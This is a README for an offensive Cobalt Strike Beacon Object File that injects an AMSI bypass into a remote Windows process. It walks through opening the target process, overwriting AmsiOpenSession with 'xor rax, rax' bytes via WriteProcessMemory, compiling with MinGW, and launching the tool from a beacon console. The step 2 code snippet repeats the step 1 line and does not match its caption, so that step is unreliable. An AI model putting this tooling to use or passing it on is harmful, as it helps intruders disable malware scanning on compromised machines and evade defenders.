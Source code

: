 ## Cobalt Strike BOF - Inject AMSI Bypass
Cobalt Strike Beacon Object File (BOF) that bypasses AMSI in a remote process with code injection.

#### Running inject-amsiBypass BOF from CobaltStrike 
  ![](runningBof.png)

### What does this do?
##### 1. Use supplied PID to get a handle on a remote process
```c
hProc = KERNEL32$OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE, FALSE, (DWORD)pid);
```
##### 2. Load AMSI.DLL into beacons memory and get the address of AMSI.AmsiOpenSession
```c
hProc = KERNEL32$OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE, FALSE, (DWORD)pid);
```
+ Both beacon and the target process will both have the same address for the symbol.
+ If AMSI.DLL does not exist in the remote process, running this may crash the target process.
##### 3. Write the AMSI bypass to the remote processes memory
```c
unsigned char amsibypass[] = { 0x48, 0x31, 0xC0 }; // xor rax, rax
BOOL success = KERNEL32$WriteProcessMemory(hProc, amsiOpenSessAddr, (PVOID)amsibypass, sizeof(amsibypass), &bytesWritten);
```

### Method = AMSI.AmsiOpenSession
+ Uses the AMSI bypass technique taught in Offensive Security's PEN-300/OSEP (Evasion Techniques and Breaching Defenses) course.
  - https://www.offensive-security.com/pen300-osep/

### Proof of Concept Demo Screenshots
#### Before - Powershell.exe AMSI.AmsiOpenSession
  ![](Before-AmsiOpenSession.png)

#### After - Powershell.exe AMSI.AmsiOpenSession
  ![](After-AmsiOpenSession.png)

### Compile with x64 MinGW:
```bash
x86_64-w64-mingw32-gcc -c inject-amsiBypass.c -o inject-amsiBypass.o
```
### Run from Cobalt Strike Beacon Console
```bash
beacon> inject-amsiBypass <PID>
```

### To Do List
+ Check that AMSI.DLL exists in remote process before injection
+ Add other AMSI bypasses to inject
+ Support x86

### Credits / References
##### Raphael Mudge - Beacon Object Files - Luser Demo
+ https://www.youtube.com/watch?v=gfYswA_Ronw
##### Cobalt Strike - Beacon Object Files
+ https://www.cobaltstrike.com/help-beacon-object-files
##### BOF Code References
###### ajpc500/BOFs
+ https://github.com/ajpc500/BOFs/
###### trustedsec/CS-Situational-Awareness-BOF
+ https://github.com/trustedsec/CS-Situational-Awareness-BOF
##### Sektor7 Malware Dev Essentials course
+ https://institute.sektor7.net/red-team-operator-malware-development-essentials
##### Offensive Security OSEP
+ https://www.offensive-security.com/pen300-osep/
